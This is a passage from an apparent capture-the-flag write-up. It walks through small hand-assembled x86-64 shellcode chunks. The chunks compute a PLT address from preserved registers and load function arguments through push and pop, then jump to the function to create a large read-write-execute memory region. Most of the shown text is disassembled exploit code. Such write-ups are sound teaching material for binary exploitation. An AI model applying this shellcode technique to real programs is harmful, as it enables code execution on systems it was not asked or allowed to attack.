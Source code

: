 The PLT is behind \_start, so we need to sub a register. Besides r12, it seems r13, r14, and r15 all do not change values from our loop. So I moved r12's value to r13, and subbed it with the correct offset.

```asm
6
   0:   41 54                   push   r12
   2:   4d 89 e5                mov    r13, r12
   5:   c3                      ret
10
   0:   41 54                   push   r12
   2:   49 81 ed f0 00 00 00    sub    r13, 0xf0
   9:   c3                      ret
7
   0:   41 54                   push   r12
   2:   49 83 ed 3c             sub    r13, 0x3c
   6:   c3                      ret
```

Now, all we need to do is setup the function parameters. Since this is a 64-bit binary, the function parameters are located in rdi, rsi, rdx, rcx, r8, and r9 respectively. We only need three, so I just need to setup rdi, rsi, and rdx. To accomplish this, I pushed the values into the stack and then popped them. The reason for that is because `pop rdi`, `pop rsi`, and `pop rdx` are instructions with a length of 1 byte.

```asm
8
   0:   58                      pop    rax
   1:   58                      pop    rax
   2:   58                      pop    rax
   3:   6a 07                   push   0x7
   5:   41 54                   push   r12
   7:   c3                      ret
10
   0:   58                      pop    rax
   1:   58                      pop    rax
   2:   5f                      pop    rdi
   3:   5e                      pop    rsi
   4:   5a                      pop    rdx
   5:   41 54                   push   r12
   7:   41 ff e5                jmp    r13
```

The `pop rax`'s were used to setup the stack in the perfect condition.
This leads to a long <span style="color:#ff0000">rwx</span> area.

![Error](/assets/images/CJFinal-7.png)

